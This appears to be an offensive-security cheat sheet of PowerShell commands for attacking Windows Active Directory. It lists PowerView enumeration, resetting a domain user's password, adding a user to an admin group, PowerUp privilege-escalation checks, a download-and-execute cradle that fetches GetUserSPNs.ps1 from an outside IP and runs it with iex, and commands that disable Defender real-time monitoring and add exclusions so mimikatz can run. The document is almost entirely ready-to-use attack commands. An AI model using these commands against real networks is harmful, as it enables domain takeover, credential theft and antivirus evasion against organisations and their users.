 # Cheat Sheet - PowerShell Scripts

## Table of content :

* [Powerview](#PowerView)
* [PowerUp](#PowerUp)
* [HostRecon](#Recon)
* [GetUsersSPNs](#GUS)
* [Disable AV and Exclude Mimikatz](#DisableAV)

### Powerview<a name="PowerView"></a>

```PowerShell
Get-DomainComputer -Unconstrained
Get-DomainUser -Domain sinhack.com
Get-DomainUser -Identity v0lk3n
Get-DomainTrust -API
Get-DomainForeignGroupMember -Domain dev.sinhack.com
ConvertFrom-SID S-1-5-21-1416213050-106196312-571527550-1107

#Parsing in Objectacl
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Change User Password Account using PowerView
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity V0lk3n -AccountPassword $UserPassword

# Add users to AD Groups
Add-DomainGroupMember -Identity 'ADMINS' -Members 'v0lk3n' -Rights all
```

### PowerUp<a name="PowerUp"></a>

```bash
Invoke-AllChecks
```

### HostRecon<a name="Recon"></a>

```PowerShell
Invoke-HostRecon
```

### GetUserSPNs<a name="GUS"></a>

```PowerShell
(new-object system.net.webclient).downloadstring('http://192.168.49.112:8080/GetUserSPNs.ps1') | iex
```

### Disable AV and Exclude Mimikatz<a name="DisableAV"></a>

1. Disable AV

```PowerShell
PS C:\Users\Administrator\Desktop> Set-MpPreference -DisableRealTimeMonitoring $true
Set-MpPreference -DisableRealTimeMonitoring $true

```

2. Add two rules to exclude mimikatz. One for exclude Desktop path, another to exclude "exe" extensions.

```powershell
PS C:\Users\Administrator\Desktop> Set-MpPreference -ExclusionPath \Users\Administrator\Desktop
Set-MpPreference -ExclusionPath \Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> Set-MpPreference -ExclusionPath C:\Users\Administrator\Desktop
et-MpPreference -ExclusionPath C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> Set-MpPreference -ExclusionExtension exe
Set-MpPreference -ExclusionExtension exe
```
